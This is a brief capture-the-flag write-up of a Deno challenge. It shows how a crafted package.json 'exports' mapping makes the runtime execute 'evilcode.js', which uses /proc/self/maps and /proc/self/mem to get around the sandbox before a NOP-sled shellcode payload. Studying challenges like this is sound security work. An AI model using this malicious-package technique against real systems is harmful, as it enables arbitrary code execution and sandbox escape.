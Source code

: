 # Truth of NPM

Deno chall.

I don't remember the exact details but pretty much what happens is that the `package.json` exports gets interpreted weirdly by this code in the chall:
```ts
const module = await import(`npm:${packageName}/package.json`, {
	with: {
		type: 'json'
	}
})
```
which means the
```json
  "exports": {
      ".": {},
      "./package.json": "./evilcode.js"
  }
```
in the package.json ends up executing `evilcode.js`.

The `evilcode.js` copies the `maps` file and symlinks the `mem` file so that we can mess with them even though there are supposed to be protections in place for that:
```ts
await Deno.copyFile("proc/self/maps", "/tmp/maps");
await Deno.symlink("/proc/self/mem", "/tmp/mem")
```

The payload is something I pinched from [this blogpost](https://secfault-security.com/blog/deno.html) and edited a little to work for this chall. You'll notice I uh... didn't bother to find the right offsets xD - `shellcode = "\x90".repeat(1000000) + shellcode`.